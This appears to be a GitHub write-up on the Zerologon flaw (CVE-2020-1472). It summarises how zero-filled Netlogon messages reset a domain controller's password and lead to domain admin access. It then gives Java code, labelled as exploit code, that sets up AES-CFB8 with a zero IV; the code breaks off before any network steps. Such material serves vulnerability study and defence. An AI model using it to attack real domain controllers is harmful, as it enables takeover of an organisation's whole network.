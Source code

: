 
# Conclusions
By simply sending a number of Netlogon messages in which various fields are filled with zeroes, an attacker can change the computer password of the domain controller that is stored in the AD. This can then be used to obtain domain admin credentials and then restore the original DC password.


# Code developed 
Here you have the code developed to exploit CVE-2020-1472 vulnerability.

```java
import java.io.UnsupportedEncodingException;
import java.nio.charset.Charset;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.util.ArrayList;
import java.util.List;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.KeyGenerator;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.SecretKey;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;

import jakarta.xml.bind.DatatypeConverter;

public class Cryptor {

    private Cipher cipher;
    static int numIntentos = 256;
    static byte[] iv = {0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
    
    static byte[] text = {0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
    
    private static Charset CHARSET = Charset.forName("ISO-8859-1");

    public Cryptor() throws CryptingException {
        try {
            cipher = Cipher.getInstance("AES/CFB8/NoPadding");
        } catch (NoSuchAlgorithmException e) {
            throw new SecurityException(e);
        } catch (NoSuchPaddingException e) {
            throw new SecurityException(e);
        }
    }

    public byte[] decrypt(byte[] input, SecretKey keySpec, IvParameterSpec ivSpec) throws CryptingException {
        try {
            cipher.init(Cipher.DECRYPT_MODE, keySpec, ivSpec);
            return cipher.doFinal(input);
        } catch (IllegalBlockSizeException e) {
            throw new SecurityException(e);
        } catch (BadPaddingException e) {
            throw new SecurityException(e);
```